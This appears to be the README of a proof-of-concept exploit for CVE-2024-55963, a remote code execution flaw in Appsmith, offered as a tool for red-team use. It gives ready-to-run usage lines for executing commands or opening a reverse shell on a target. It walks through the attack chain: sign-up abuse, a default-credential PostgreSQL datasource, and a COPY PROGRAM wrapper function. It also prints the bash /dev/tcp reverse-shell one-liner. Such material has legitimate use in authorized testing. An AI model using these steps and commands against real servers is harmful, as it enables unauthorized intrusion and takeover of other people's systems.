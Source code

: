 # CVE‑2024‑55963 Appsmith RCE PoC

PoC exploit for CVE‑2024‑55963 that runs arbitrary commands or spawns reverse shell on vulnerable **Appsmith** instances.

It automatically handles both modern servers (with the *environmentId* feature) and much older “legacy” builds that pre‑date it, so you can use one script for every version from **v1.20** up to the last vulnerable release **v1.51**.

---

## Quick start

```bash
# Run an arbitrary command (default is `id`)
python3 appsmith-rce.py https://target.example.com you@pwned.org password123 "whoami"

# spawn a reverse shell
python3 appsmith-rce.py https://target.example.com you@pwned.org password123 -revshell <ip> <port>
```

> **Note:** Any credentials work as long as the server allows self‑service sign‑up.
> The script tries to log in first and falls back to registration if the account does not exist.

---

## How it works (high level)

1. **CSRF & session handling** – pulls the token from several possible endpoints or the cookie jar, then carries it forward.
2. **Login/Signup flow** – logs in or registers a new user with the provided email / password.
3. **Workspace discovery** – grabs an existing workspace or triggers the onboarding flow to auto‑create one.
4. **Environment detection** – queries `/api/v1/environments/workspaces/{id}`; if missing it switches to legacy mode (empty `environmentId`).
5. **Application & page setup** – posts to `/api/v1/applications` and extracts `pageId`.
6. **Datasource creation** – builds a local PostgreSQL datasource that points at `localhost:5432` with `postgres/postgres` creds (allowed by the vulnerable default pg\_hba.conf).
7. **SQL objects** – uploads a helper PL/pgSQL function `exec_cmd()` plus a scratch table `cmd_output` that collects STDOUT.
8. **Command execution** – runs `SELECT * FROM exec_cmd('<your cmd>')` via the `/api/v1/actions/execute` endpoint
9. **Reverse shell (optional)** – executes `bash -c 'bash -i >& /dev/tcp/LHOST/LPORT 0>&1'` 

---

## Requirements

* Python ≥ 3.8
* `requests` 

---

## Tested versions

| Appsmith version       | Result                              |
| ---------------------- | ----------------------------------- |
| 1.51                   | ✅ RCE                               |
| 1.45                   | ✅ RCE                               |
| 1.30                   | ✅ RCE, legacy path                  |
| 1.52+                  | ❌ Patched – function creation fails |

---

## Differences vs. Rhino Security Labs PoC

This PoC is a bit of an enchancement of the Rhino Security Labs exploit (I didn't realize they already had a public PoC when I was revieweing the research)

Rhino's PoC uses static headers, cookies, and credentials. While testing that exploit I ran into issues when account already existed on specific versions. This script allows a user to enter any email/pass combo they choose from command line. As mentioned, CSRF token is extracted rather than relying on hardcoded values. 

- This version works on older servers that do not have `Environments API` endpoint. 
- The execution path is different. This leverages `COPY PROGRAM` inside `exec_cmd()` PL/pgSQL wrapper and uses `/actions/execute` API, but this is arguably noisier. Rhino relies on the built‑in schema preview endpoint to issue an ad‑hoc COPY (SELECT …) statement. That endpoint truncates output length and adds extra quoting rules, so long commands or chained payloads are harder to pass.
- Single reverse shell flag (:
- Randomizes app/datasource/function names
- No `pyfiglet` dependency
- Older server support by auto-detecting `environmentId` header. Rhino's exploit assumes it is always there.

Together these design choices make the exploit shorter, more reliable, and friendlier for red‑team use while still demoing the same underlying vulnerability.


## References
[rhinosecuritylabs.com](https://rhinosecuritylabs.com/research/cve-2024-55963-unauthenticated-rce-in-appsmith/)

---
## Legal notice

This code is provided **for educational and authorized testing only**.
Running it against systems you do not own or do not have explicit permission to test is likely illegal.
The authors accept **no liability** for misuse.
